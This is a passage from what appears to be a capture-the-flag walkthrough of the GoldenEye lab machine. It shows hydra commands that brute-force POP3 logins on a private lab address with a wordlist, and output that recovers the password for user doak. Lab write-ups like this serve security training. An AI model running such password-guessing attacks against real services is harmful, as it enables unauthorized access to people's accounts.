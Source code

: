 ![User: doak](img/goldeneye1-2.png)


With these two new users in mind we can use hydra again to try to brute force them. Run in two separate tabs:

```bash
hydra -l doak -P /usr/share/wordlists/fasttrack.txt 192.168.56.101 -s55007 pop3
hydra -l admin -P /usr/share/wordlists/fasttrack.txt 192.168.56.101 -s55007 pop3 
```

And we obtain results only for the username doak:

```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-19 12:07:05
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://192.168.56.101:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 192.168.56.101   login: doak   password: goat
```